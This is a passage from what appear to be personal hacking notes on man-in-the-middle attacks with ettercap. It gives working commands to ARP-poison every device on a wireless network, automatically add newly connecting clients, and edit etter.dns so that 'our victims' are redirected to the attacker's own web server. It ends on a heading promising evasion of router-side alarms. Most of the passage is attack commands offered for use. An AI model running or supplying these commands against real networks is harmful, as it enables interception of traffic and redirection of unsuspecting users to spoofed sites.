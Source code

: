 ▶️> iptables -t nat --flush  [ now it will back to the normal state ]

Automatically Arp Spoofing New Clients
--------------------------------------

▶️> ettercap -Tq -M arp:remote -i wlan0 -S ///

This is the normal comman that arp poison the target at the time of running the attack. When a new device connects after we starting our attack they will not be affected.

For fixing that issue ettercap has an auto add plugin to add new clients when they connect.

 press h for available options > there we can see press p for activate a plugin > there we can see our plugin as autoadd > just type its name to activate it.
 
 Now the new clients will be automatically added to host list and arp poisoned.
 

✅️ DNS SPOOFING USING ETTERCAP
------------------------------

We know that dns spoofing does is redirect request from website to another. So we can redirect our victims from one website to any other we want.

▶️> gedit /etc/ettercap/etter.dns

		# Sample hosts file for dns_spoof plugin                                   #
		#                                                                          #
		# the format is (for A query):                                             #
		#   www.myhostname.com A 168.11.22.33 3600                                 #
		#   *.foo.com          A 168.44.55.66 [optional TTL]                       #

This means a request to www.myhostname.com will be redirected to 168.11.22.33 3600  and  *.foo.com means any subdomain.foo.com will be redirected to 168.44.55.66.

We can use our own ip to redirect to our own apache webserver.

So modify the file accordingly.

▶️> ettercap -Tq -M arp:remote -i wlan0 -S -P dns_spoof /10.20.215.9// /10.20.215.1//  [ -p is our plugin name ]

✅️ Bypassing Router-Side Security  Poisoning Target Without Triggering Alarms
-----------------------------------------------------------------------------
